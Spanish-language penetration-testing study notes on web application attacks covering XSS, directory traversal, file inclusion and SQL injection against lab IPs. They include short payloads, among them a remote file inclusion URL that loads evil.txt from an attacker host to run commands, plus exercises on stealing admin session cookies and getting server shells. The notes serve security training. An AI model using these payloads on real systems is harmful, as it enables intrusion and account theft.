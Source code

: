 # Web Application Atacks

Propietario: Adrian Gisbert Cabello

### 1. Metodología de Evaluación de Aplicaciones Web

- **Objetivo**: Identificar y explotar vulnerabilidades comunes en aplicaciones web.
- **Pasos Iniciales**:
    - ¿Qué hace la aplicación?
    - ¿En qué lenguaje está escrita?
    - ¿Qué software de servidor usa?
    - Responder estas preguntas guiará hacia posibles vectores de ataque.

### 2. Enumeración de Aplicaciones Web

- **Componentes a Identificar**:
    - Lenguaje de programación y frameworks.
    - Software del servidor web.
    - Software de base de datos.
    - Sistema operativo del servidor.

### 3. Herramientas de Enumeración

- **Firefox Developer Tools**: Inspección de recursos y contenido de la página.
- **Extensiones de archivo en URLs**: `.php`, `.jsp`, `.do`, `.html`.
- **Contenido de la Página**: Comentarios, campos de entrada ocultos, controles del lado del cliente, etc.

### 4. Vulnerabilidades Comunes en Aplicaciones Web

### 4.1. Cross-Site Scripting (XSS)

- **Tipos de XSS**:
    - **Stored XSS**: El payload se almacena en el servidor.
    - **Reflected XSS**: El payload se refleja en la respuesta del servidor.
    - **DOM-Based XSS**: La vulnerabilidad reside en la manipulación del DOM por parte del navegador.
- **Identificación de XSS**:
    - Examinar campos de entrada que aceptan datos no saneados.
    - Ingresar caracteres especiales y observar la salida.
- **Ejemplo de Payload XSS**:
    
    ```html
    <script>alert('XSS')</script>
    ```
    

### 4.2. Directory Traversal

- **Descripción**: Permite el acceso no autorizado a archivos en el servidor.
- **Identificación**:
    - Examinar cadenas de consulta en URLs y cuerpos de formularios.
    - Buscar extensiones de archivo en cadenas de consulta.
    - Probar con rutas conocidas como `/etc/passwd` en Linux o `c:\boot.ini` en Windows.
- **Ejemplo de Explotación en Windows**:
    
    ```bash
    http://10.11.0.22/menu.php?file=c:\windows\system32\drivers\etc\hosts
    ```
    

### 4.3. File Inclusion

- **Local File Inclusion (LFI)**: Incluir archivos locales en el servidor.
- **Remote File Inclusion (RFI)**: Incluir archivos remotos.
- **Explotación**:
    - Usar null bytes (`%00`) para truncar cadenas y evitar extensiones añadidas por el servidor.
    - Usar signos de interrogación (`?`) para marcar el inicio de una cadena de consulta.
- **Ejemplo de Payload RFI**:
    
    ```bash
    http://10.11.0.22/menu.php?file=http://10.11.0.4/evil.txt&cmd=ipconfig
    ```
    

### 4.4. SQL Injection

- **Descripción**: Inyección de código SQL en la consulta del servidor.
- **Identificación**:
    - Probar con caracteres como `'`, `-`, `;` en campos de entrada.
    - Observar errores y respuestas inesperadas.
- **Herramientas**:
    - **sqlmap**: Automatiza el proceso de identificación y explotación de SQL Injection.
    - **Ejemplo**:
        
        ```bash
        sqlmap -u "http://10.11.0.22/vulnerable.php?id=1" --dbs
        ```
        

### 5. Herramientas Adicionales

- **Burp Suite**: Herramienta integral para pruebas de penetración de aplicaciones web.
- **Nikto**: Escáner de vulnerabilidades en servidores web.
    
    ```bash
    nikto -h http://1.1.1.1
    ```
    

### 6. Ejercicios

1. **Exploit Stored XSS**:
    - Insertar un payload XSS en un campo de comentario.
    - Obtener la cookie de sesión del administrador.
    - Usar un editor de cookies para establecer la cookie robada en tu navegador y acceder a la cuenta del administrador.
2. **Directory Traversal**:
    - Probar diferentes rutas y archivos para descubrir información sensible.
    - Usar la técnica para facilitar un ataque de inclusión de archivos si es posible.
3. **SQL Injection**:
    - Identificar y explotar una vulnerabilidad de SQL Injection para obtener acceso a la base de datos.
    - Intentar obtener un shell en el servidor a través de SQL Injection.
4. **File Inclusion**:
    - Explotar una vulnerabilidad de inclusión de archivos para ejecutar un shell en el servidor.